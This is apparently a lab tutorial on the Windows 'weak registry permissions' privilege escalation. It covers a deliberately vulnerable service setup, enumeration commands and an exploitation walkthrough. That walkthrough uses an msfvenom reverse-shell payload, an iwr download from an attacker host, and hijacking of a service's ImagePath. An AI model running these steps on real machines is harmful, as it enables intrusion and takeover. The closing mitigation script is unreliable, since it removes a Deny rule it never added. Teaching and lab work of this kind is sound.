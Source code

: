 # Weak Registry Permissions

## Table of Contents

- [Weak Registry Permissions](#weak-registry-permissions)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

Weak registry permissions represent a vulnerability within the Windows registry resulting from misconfigured access controls. This issue involves specific registry keys or entries having permissions that permit unauthorized users to manipulate or access crucial system configurations. This vulnerability can be exploited by attackers who inject malicious code into registry keys, thus obtaining unauthorized privileged access.

## Lab Setup

### Manual Lab Setup

1) Open a PowerShell with local Administrtor Privileges and use the following command to create a new folder:

```
mkdir "C:\Program Files\CustomSrv4\"
```

2) Download the file [Service4.exe](/Lab-Setup-Binary/Service4.exe) to the 'C:\Program Files\CustomSrv4' directory.

3) Install the new Service:

```
New-Service -Name "Vulnerable Service 4" -BinaryPathName "C:\Program Files\CustomSrv4\Service4.exe" -DisplayName "Vuln Service 4" -Description "My Custom Vulnerable Service 4" -StartupType Automatic
```

4) Edit new service's permissions to be controlled by BUILTIN\Users:

```
cmd.exe /c 'sc sdset "Vulnerable Service 4" D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;AU)(A;;CCLCSWRPWPDTLOCRRC;;;PU)(A;;RPWP;;;BU)'
```

Outcome:

![Weak-Registry-Permissions-Manual-Lab-Setup](/Pictures/Weak-Registry-Permissions-Manual-Lab-Setup.png)

5) Open Registry panel with `regedit` command and navigate to 'Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4':

![Weak-Registry-Permissions-Manual-Lab-Setup-2](/Pictures/Weak-Registry-Permissions-Manual-Lab-Setup-2.png)

6) Right click on "Vulnerable Service 4" and choose the "permissions" option:

![Weak-Registry-Permissions-Manual-Lab-Setup-3](/Pictures/Weak-Registry-Permissions-Manual-Lab-Setup-3.png)

7) Allow Full Access control on Users and then press "OK" button:

![Weak-Registry-Permissions-Manual-Lab-Setup-4](/Pictures/Weak-Registry-Permissions-Manual-Lab-Setup-4.png)

### PowerShell Script Lab Setup

To set up the lab with the 'Weak Registry Permissions' vulnerability is by using the custom PowerShell script named [WeakRegistryPermissions.ps1](/Lab-Setup-Scripts/WeakRegistryPermissions.ps1).

1) Open a PowerShelll with local Administrator privileges and run the script:

```
.\WeakRegistryPermissions.ps1
```

Outcome:

![Weak-Registry-Permissions-Script-Lab-Setup](/Pictures/Weak-Registry-Permissions-Script-Lab-Setup-4.png)

## Enumeration

### Manual Enumeration

To perform manual enumeration of the `Weak Registry Permissions` vulnerability, you can use the following steps:

1) Open a Powershell and use the following command to enumerate registry permissions:

```
Get-Acl -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4" | fl
```

2) Use the following command to identify the image path of the service:

```
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4"
```

Outcome:

![Weak-Registry-Permissions-Manual-Enumeration](/Pictures/Weak-Registry-Permissions-Manual-Enumeration.png)

### Tool Enumeration

To run the SharpUp tool and perform an enumeration of the `Weak Registry Permissions` vulnerability, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit ModifiableServiceRegistryKeys
```

Outcome:

![Weak-Registry-Permissions-Tool-Enumeration](/Pictures/Weak-Registry-Permissions-Tool-Enumeration.png)

## Exploitation

To abuse this vulnerability you should follow these steps:

1) Create with msfvenom a malicious exe file:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1234 -f exe > Service4.exe
```

2) Open a listener in your kali machine.

3) Transfer the malicious executable in victim's machine:

```
iwr -Uri http://<ip>:<port>/Service4.exe -Outfile C:\Windows\Tasks\Service4.exe
```

4) Change the image path for service:

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\Tasks\Service4.exe" /f
```

5) Start the service with the following command or reboot the machine:

```
sc start "Vulnerable Service 4"
```

Outcome:

![Weak-Registry-Permissions-Exploitation](/Pictures/Weak-Registry-Permissions-Exploitation-2.png)

6) Verify the reverse shell on your Kali machine:

![Weak-Registry-Permissions-Reverse-Shell](/Pictures/Weak-Registry-Permissions-Reverse-Shell.png)

## Mitigation

To defend against Weak Regisrty Permissions vulnerabilities, adjust permissions on Regisrty hives initiated through this mechanism. This limits unauthorized access and strengthens security measures:

1) Open Registry panel with `regedit` command and navigate to 'Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4'.

2) Right click on "Vulnerable Service 4" and choose the "permissions" option.

3) Remove the checkmark from the 'Full Control' box assigned to 'Users,' then click the 'OK' button.

However, you can use the following PowerShell script:

```
# Define the registry key path
$regKey = "HKLM:\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4"

# Get the current ACL (Access Control List) for the registry key
$acl = Get-Acl -Path $regKey

# Specify the account and access rights to be removed
$account = "BUILTIN\Users"
$accessRights = [System.Security.AccessControl.RegistryRights]::FullControl

# Create a new access rule to remove FullControl
$accessRule = New-Object System.Security.AccessControl.RegistryAccessRule($account, $accessRights, "Deny")

# Remove the access rule from the ACL
$acl.RemoveAccessRule($accessRule)

# Set the modified ACL back to the registry key
Set-Acl -Path $regKey -AclObject $acl
```

## References

- [Windows registry information for advanced users Microsoft](https://learn.microsoft.com/en-us/troubleshoot/windows-server/performance/windows-registry-advanced-users)
- [About Registry Microsoft](https://learn.microsoft.com/en-us/windows/win32/sysinfo/about-the-registry)
- [Registry Key Security and Access Rights Microsoft](https://learn.microsoft.com/en-us/windows/win32/sysinfo/registry-key-security-and-access-rights)